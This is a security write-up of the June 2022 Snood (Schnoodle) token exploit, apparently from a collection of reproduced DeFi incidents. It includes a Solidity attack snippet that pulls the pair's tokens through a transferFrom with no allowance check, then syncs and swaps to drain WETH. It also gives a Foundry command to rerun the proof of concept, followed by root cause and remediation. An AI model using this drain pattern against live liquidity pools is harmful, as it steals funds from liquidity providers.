

# Snood (Schnoodle) Exploit — `transferFrom` Allowance Bypass Drains LP

> **Reproduction:** the PoC compiles & runs in an isolated Foundry project at
> [this project folder](.). Full verbose trace: [output.txt](output.txt).
> Verified vulnerable source: [SchnoodleV9](sources/SchnoodleV9_EaC2a2),
> [UniswapV2Pair](sources/UniswapV2Pair_0F6b09).

---

## Key info

| | |
|---|---|
| **Loss** | WETH drained from the SNOOD/WETH Uniswap pair |
| **Vulnerable contract** | SNOOD (SchnoodleV9 token) `0xD45740aB9ec920bEdBD9BAb2E863519E59731941`; SNOOD/WETH pair `0x0F6b09…` |
| **Chain / block / date** | Ethereum mainnet / Jun 2022 |
| **Bug class** | Allowance bypass — the Schnoodle token's `transferFrom` did not enforce a real `allowance[from][msg.sender]`, so anyone could pull the pair's SNOOD directly; the attacker then `sync()`s the empty-SNOOD pair and swaps to extract all its WETH. |

---

## TL;DR

```solidity
uint256 balance = SNOOD.balanceOf(address(uniLP));
require(SNOOD.transferFrom(address(uniLP), address(this), balance - 1));  // ⚠️ no allowance needed
uniLP.sync();                                                              // pair SNOOD reserve → ~0
require(SNOOD.transfer(address(uniLP), balance - 1));                      // donate 1 SNOOD back
// compute amount0Out from the now-degenerate reserves
uniLP.swap(amount0Out, 0, attacker, "");                                   // pull nearly all WETH
```

Because Schnoodle's `transferFrom` ignores allowance (a non-standard/broken ERC20), the attacker pulls
the LP's entire SNOOD balance without approval, `sync()`s so the pair thinks it holds ~0 SNOOD (WETH
reserve unchanged → SNOOD infinitely expensive), donates a token back, and `swap`s to extract almost
all the WETH to `0x180ea086…`.

---

## Root cause

A **broken `transferFrom`** (no/incorrect allowance enforcement) in a non-standard ERC20. Once anyone
can move a pair's token balance, the AMM invariant is trivially breakable: skim the token, `sync()`,
donate dust, swap out the other side.

---

## Diagrams



---

## Remediation

1. **Implement standard ERC20** `transferFrom` with `allowance[from][msg.sender]` enforcement (use OZ).
2. **Never list a token whose `transferFrom` ignores allowance** in an AMM pair.
3. **Pair defence**: `k`-check against actual received amounts; detect unauthorised balance moves.

---

## How to reproduce

```bash
_shared/run_poc.sh 2022-06-Snood_exp --mt testExploit -vvvvv
```

- RPC: mainnet archive. Infura mainnet in `foundry.toml`.
- Result: `[PASS]` — attacker WETH balance goes 0 → positive.

---

*Reference: Schnoodle/Snood `transferFrom` allowance bypass, Jun 2022.*
